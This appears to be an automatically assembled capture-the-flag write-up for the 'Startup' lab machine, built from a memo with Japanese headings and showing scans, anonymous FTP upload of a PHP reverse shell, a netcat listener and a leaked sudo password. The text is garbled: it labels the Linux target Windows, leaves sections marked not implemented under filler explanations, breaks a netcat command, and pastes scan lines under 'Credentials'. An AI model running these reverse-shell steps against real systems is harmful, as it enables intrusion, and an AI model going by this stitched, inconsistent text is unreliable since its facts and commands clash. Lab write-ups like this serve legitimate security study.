

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | 21/tcp open  ftp, 22/tcp open  ssh, 80/tcp open  http |
| Primary Entry Vector      | web, ssh attack path to foothold |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---
## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (not recorded in PDF)


## Nmap
```bash
nmap -sV -sT -sC $ip
```

### 2. Local Shell

---

PDFメモから抽出した主要コマンドと要点を整理しています。必要に応じて後続で詳細追記してください。

### 実行コマンド（抽出）
```bash
ftp $ip
ftp> ls
ftp> cd ftp
ftp> put shell.php
ftp>
ftp> exit
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -m http.server 9000
nc -lvnp When waiting at 6666,
```

### 抽出画像


*Caption: Screenshot captured during startup attack workflow (step 1).*

### 抽出メモ（先頭120行）
```bash
Startup🌶
June 15, 2023 23:34

#1 Reconnaissance
Immediately add nmap and ffuf
┌──(n0z0㉿kali)-[~/work/thm/Startup]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-15 22:19 JST
Nmap scan report for 10.10.133.170
Host is up (0.27s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.11.41.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.32 seconds
┌──(n0z0㉿kali)-[~/work/thm/Startup]
└─$ ffuf -w ~/SecLists/Discovery/Web-Content/common.txt -u http://$ip/FUZZ
/'___\  /'___\           /'___\
/\ \__/ /\ \__/  __  __  /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\   \ \_\  \ \____/  \ \_\
\/_/    \/_/   \/___/    \/_/
v1.5.0 Kali Exclusive <3
________________________________________________
:: Method           : GET
:: URL              : http://10.10.133.170/FUZZ
:: Wordlist         : FUZZ: /home/n0z0/SecLists/Discovery/Web-Content/common.txt
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
OneNote
1/6
:: Threads          : 40
:: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 932ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 3951ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5993ms]
files                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 289ms]
index.html              [Status: 200, Size: 808, Words: 136, Lines: 21, Duration: 332ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 288ms]
:: Progress: [4715/4715] :: Job [1/1] :: 121 req/sec :: Duration: [0:00:47] :: Errors: 0 ::
#2FTP
Check that the FTP port is open and has extraordinary privileges.
Furthermore, anonymous login is allowed, so
While logging in by entering anonymous in the name
send reverse shell
┌──(n0z0㉿kali)-[~/work/thm/Startup]
└─$ ftp $ip
Connected to 10.10.133.170.
220 (vsFTPd 3.0.3)
Name (10.10.133.170:n0z0): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45209|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||60144|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||61242|)
150 Ok to send data.
100%
|***********************************************************************
|  5494       16.90 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (10.49 KiB/s)
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||41718|)
150 Ok to send data.
ftp>
ftp> exit
221 Goodbye.
reverse shell
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
```

### Not implemented (not recorded in PDF)


💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

Privilege elevation related commands extracted from PDF memo.

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
┌──(n0z0㉿kali)-[~/work/thm/Startup]
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
https://nmap.org/submit/ .
└─$ ffuf -w ~/SecLists/Discovery/Web-Content/common.txt -u http://$ip/FUZZ
\/_/    \/_/   \/___/    \/_/
:: URL              : http://10.10.133.170/FUZZ
:: Wordlist         : FUZZ: /home/n0z0/SecLists/Discovery/Web-Content/common.txt
2026/02/27 17:41
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 3951ms]
:: Progress: [4715/4715] :: Job [1/1] :: 121 req/sec :: Duration: [0:00:47] :: Errors: 0 ::
331 Please specify the password.
Password:
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
python3 -c 'import pty;pty.spawn("/bin/bash")'
[sudo] password for www-data: c4ntg3t3n0ughsp1c3
[sudo] password for www-data:
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- ffuf
- nc
- sudo
- ssh
- php
- GTFOBins
